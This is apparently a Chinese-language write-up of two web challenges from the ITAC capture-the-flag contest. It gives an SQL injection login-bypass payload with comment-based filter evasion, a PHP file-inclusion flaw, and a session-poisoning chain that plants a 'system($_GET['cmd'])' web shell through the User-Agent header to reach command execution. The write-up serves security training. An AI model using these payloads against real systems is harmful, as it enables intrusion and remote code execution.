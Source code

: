 
### Login as Admin - Advanced
其實考點很明顯，1. 避免使用空白, 2. 避免使用 `1=1`。
我這邊有放水，原本題目還會檢查是否有 `or`，但是怕太雞掰所以砍掉了。

考點的解法其實很簡單。1. 空白改用 `/**/`, 2. `1=1` 改用 `2=2` 之類的恆等式就好了。
```
Username: '/**/or/**/1<2/**/#
Password: 123
```

**Flag: ITAC{5qL1NJ3C710n_bu7_W17H_4_DUMb422_F1L73r}**

### 🐚
這題其實不認為有人解的出來，只是來釣高手的 XD

首先眼尖的人可以發現這題跟 `LFI` 是同一題，而且 CTFd 提示需要執行程式，所以這題的目標是得到 RCE。
那我們可以先透過 LFI 拿到 source code。
```php
<?php
session_start();

include("flag.php"); // This includes our flag1

if (isset($_SERVER['HTTP_USER_AGENT']) && !empty($_SERVER['HTTP_USER_AGENT'])) {
    $_SESSION['UA'] = $_SERVER['HTTP_USER_AGENT'];
}

if (isset($_GET['p']) && !empty($_GET['p'])) {
    @include($_GET['p']);
} else {
    @include("base.php");
}
```

可以發現我們的 `User-Agent` 被塞到 session 裡面，而 `User-Agent` 為我們可控制的內容，那我們就可以嘗試 include session 的檔案。
在 Ubuntu 系統中 PHP 預設存放 session 檔案的位置為 `/var/lib/php/sessions/sess_{PHPSESSID}` 那我們可以先在 `User-Agent` 構造一個 php shell，並且留意 PHPSESSID。
```
curl -H "User-Agent: <?php system(\$_GET['cmd']);?>" https://lfi.ctf.itac.club/ -v
...
> GET / HTTP/1.1
> Host: lfi.ctf.itac.club
> Accept: */*
> User-Agent: <?php system($_GET['cmd']);?>
>
< HTTP/1.1 200 OK
...
< Set-Cookie: PHPSESSID=uas2q2qum385drandfl31cc5c9; path=/
...
```

直接在參數 `p` 引入 session 檔案並且多加一個參數 `cmd` 來執行 Linux 指令。
![rce](https://github.com/racterub/itac-ctf/blob/master/assets/img/shellrce.png)
